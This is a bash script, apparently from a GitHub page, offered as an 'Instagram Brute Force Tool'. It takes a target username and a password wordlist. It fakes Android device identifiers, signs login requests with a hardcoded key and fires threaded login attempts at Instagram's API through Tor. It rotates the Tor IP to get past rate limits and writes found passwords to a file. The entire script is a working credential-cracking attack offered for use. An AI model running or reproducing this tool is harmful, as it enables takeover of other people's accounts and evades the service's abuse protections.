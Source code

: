 #
# Coded by: rony.com/rony
# Instagram:@mbgshwr86

trap 'store;exit 1' 2
string4=$(openssl rand -hex 32 | cut -c 1-4)
string8=$(openssl rand -hex 32  | cut -c 1-8)
string12=$(openssl rand -hex 32 | cut -c 1-12)
string16=$(openssl rand -hex 32 | cut -c 1-16)
device="android-$string16"
uuid=$(openssl rand -hex 32 | cut -c 1-32)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var=$(curl -i -s -H "$header" https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var | grep -o 'csrftoken=.*' | cut -d ';' -f1 | cut -d '=' -f2)

checkroot() {
if [[ "$(id -u)" -ne 0 ]]; then
    printf "\e[1;77mPlease, run this program as root!\n\e[0m"
    exit 1
fi
}

dependencies() {

command -v tor > /dev/null 2>&1 || { echo >&2 "I require tor but it's not installed. Run ./install.sh. Aborting."; exit 1; }
command -v curl > /dev/null 2>&1 || { echo >&2 "I require curl but it's not installed. Run ./install.sh. Aborting."; exit 1; }
command -v openssl > /dev/null 2>&1 || { echo >&2 "I require openssl but it's not installed. Run ./install.sh Aborting."; exit 1; }

command -v awk > /dev/null 2>&1 || { echo >&2 "I require awk but it's not installed. Aborting."; exit 1; }
command -v sed > /dev/null 2>&1 || { echo >&2 "I require sed but it's not installed. Aborting."; exit 1; }
command -v cat > /dev/null 2>&1 || { echo >&2 "I require cat but it's not installed. Aborting."; exit 1; }
command -v tr > /dev/null 2>&1 || { echo >&2 "I require tr but it's not installed. Aborting."; exit 1; }
command -v wc > /dev/null 2>&1 || { echo >&2 "I require wc but it's not installed. Aborting."; exit 1; }
command -v cut > /dev/null 2>&1 || { echo >&2 "I require cut but it's not installed. Aborting."; exit 1; }
command -v uniq > /dev/null 2>&1 || { echo >&2 "I require uniq but it's not installed. Aborting."; exit 1; }
if [ $(ls /dev/urandom >/dev/null; echo $?) == "1" ]; then
echo "/dev/urandom not found!"
exit 1
fi

}

banner() {

printf "\e[1;77m     _                              \e[0m\n"
printf "\e[1;77m _  | |                _            \e[0m\n"
printf "\e[1;77m( \ | | ____    ___  _| |_  _____   \e[0m\n"
printf "\e[1;80m ) )| ||  _ \  /___)(_   _)(____ |  \e[0m\n"
printf "\e[1;77m(_/ | || | | ||___ |  | |_ / ___ |  \e[0m\n"
printf "\e[1;77m    |_||_| |_|(___/    \__)\_____|  \e[0m\n"
printf "\n"
printf "\e[1;50m\e[40m  Instagram Brute Force Tool by @dhasirar(IG)   \e[0m\n"
printf "\n"
}

function start() {
banner
#checkroot
dependencies
read -p $'\e[1;92mUsername account: \e[0m' user
checkaccount=$(curl -L -s https://www.instagram.com/$user/ | grep -c "the page may have been removed")
if [[ "$checkaccount" == 1 ]]; then
printf "\e[1;91mInvalid Username! Try again\e[0m\n"
sleep 1
start
else
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"
default_threads="10"
read -p $'\e[1;92mThreads (Use < 20, Default 10): \e[0m' threads
threads="${threads:-${default_threads}}"
fi
}

checktor() {

check=$(curl --socks5-hostname localhost:9050 -s https://check.torproject.org > /dev/null; echo $?)

if [[ "$check" -gt 0 ]]; then
printf "\e[1;91mPlease, check your TOR Connection! Just type tor or service tor start\n\e[0m"
exit 1
fi

}

function store() {

if [[ -n "$threads" ]]; then
printf "\e[1;91m [*] Waiting threads shutting down...\n\e[0m"
if [[ "$threads" -gt 10 ]]; then
sleep 6
else
sleep 3
fi
default_session="Y"
printf "\n\e[1;77mSave session for user\e[0m\e[1;92m %s \e[0m" $user
read -p $'\e[1;77m? [Y/n]: \e[0m' session
session="${session:-${default_session}}"
if [[ "$session" == "Y" || "$session" == "y" || "$session" == "yes" || "$session" == "Yes" ]]; then
if [[ ! -d sessions ]]; then
mkdir sessions
fi
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
printf "user=\"%s\"\npass=\"%s\"\nwl_pass=\"%s\"\ntoken=\"%s\"\n" $user $pass $wl_pass $countpass > sessions/store.session.$user.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./instashell --resume\n"
else
exit 1
fi
else
exit 1
fi
}


function changeip() {

killall -HUP tor


}

function bruteforcer() {

checktor
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
printf "\e[1;92mUsername:\e[0m\e[1;77m %s\e[0m\n" $user
printf "\e[1;92mWordlist:\e[0m\e[1;77m %s (%s)\e[0m\n" $wl_pass $count_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
token=0
startline=1
endline="$threads"
while [[ "$token" -lt "$count_pass" ]]; do
IFS=$'\n'
for pass in $(sed -n ''$startline','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let token++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $countpass $count_pass $pass #token

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9050 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m"; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then changeip; fi; ) } & done; wait $!;

let startline+=$threads
let endline+=$threads
changeip
done
exit 1
}



function resume() {

banner 
checktor
counter=1
if [[ ! -d sessions ]]; then
printf "\e[1;91m[*] No sessions\n\e[0m"
exit 1
fi
printf "\e[1;92mFiles sessions:\n\e[0m"
for list in $(ls sessions/store.session*); do
IFS=$'\n'
source $list
printf "\e[1;92m%s \e[0m\e[1;77m: %s (\e[0m\e[1;92mwl:\e[0m\e[1;77m %s\e[0m\e[1;92m,\e[0m\e[1;92m lastpass:\e[0m\e[1;77m %s )\n\e[0m" "$counter" "$list" "$wl_pass" "$pass"
let counter++
done
read -p $'\e[1;92mChoose a session number: \e[0m' fileresume
source $(ls sessions/store.session* | sed ''$fileresume'q;d')
default_threads=10
read -p $'\e[1;92mThreads (Use < 20, Default 10): \e[0m' threads
threads="${threads:-${default_threads}}"

printf "\e[1;92m[*] Resuming session for user:\e[0m \e[1;77m%s\e[0m\n" $user
printf "\e[1;92m[*] Wordlist: \e[0m \e[1;77m%s\e[0m\n" $wl_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"


count_pass=$(wc -l $wl_pass | cut -d " " -f1)

while [[ "$token" -lt "$count_pass" ]]; do
IFS=$'\n'
for pass in $(sed -n '/\b'$pass'\b/,'$(($token+threads))'p' $wl_pass); do
#for pass in $(sed -n '/\b'$pass'\b/,'$threads'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"$phone", "_csrftoken":"$var2", "username":"'$user'", "guid":"$guid", "device_id":"$device", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
printf "\e[1;77mTrying pass (%s/%s)\e[0m: %s\n" $countpass $count_pass $pass #token
let token++
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9050 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait"| uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m";  kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instashell ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m"; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then changeip; fi; ) } & done; wait $!;
let token--
changeip
done
exit 1
}

case "$1" in --resume) resume ;; *)
start
bruteforcer
esac
© 2021 GitHub, Inc.
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
